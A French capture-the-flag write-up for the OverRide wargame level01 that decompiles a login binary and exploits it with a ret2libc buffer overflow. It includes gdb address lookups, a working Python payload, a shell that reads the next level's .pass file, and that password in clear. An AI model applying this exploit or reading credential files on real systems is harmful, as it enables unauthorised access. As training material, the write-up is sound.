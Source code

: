 #### Etape 1 : Décompilation 

```bash
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: fsdfsdfsd
verifying username....

nope, incorrect username...

level01@OverRide:~$ ./level01 dssd sdsd
********* ADMIN LOGIN PROMPT *********
Enter Username: ds
verifying username....

nope, incorrect username...
```

Ce binaire ne prend aucun argument et demande un username.
Dans ce binaire il y a 3 fonctions : main(), verify_user_name() et verify_user_pass().
La fonction verify_user_name() vérifie si le username est égale a "dat_wil".
La fonction verify_user_pass() vérifie si le password est égale a "admin".
```bash
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```


#### Etape 2 : Probleme

Le premier fgets recupere le username et apres on compare avec "dat_wil".
Le deuxieme fgets recupere le password et apres on compare avec "admin".
Mais qu'il soit correct ou non on a un message d'erreur.
```c
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
```
#### Etape 3 : Idée

L'idée est d'envoyer un shell dans le password pour qu'il s'éxécute.
Après avoir tenter d'ajouter un shellcode sans succès nous avons tentés de reproduire un ret2libc.
Celui ci nécessite d'appeler le pointeur de la fonction system, d'y ajouter ensuite un pointeur vers une fonction, c'est necessaire pour spécifier dans quel fonction retourner après l'appel a system. Pour finir ajouter une adresse qui correspond a la chaine de caractères que l'on souhaite éxécuter.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb)
````
system : 0xf7e6aed0
exit : 0xf7e5eb70
/bin/sh : 0xf7f897ec

#### Etape 4 : Execution 

```bash
level01@OverRide:~$ python -c 'print "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"+ "B"*20' > /tmp/hugo
level01@OverRide:~$ echo "dat_wil" > /tmp/test
level01@OverRide:~$ cat /tmp/test
dat_wil
level01@OverRide:~$ (cat /tmp/test ; cat /tmp/hugo -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
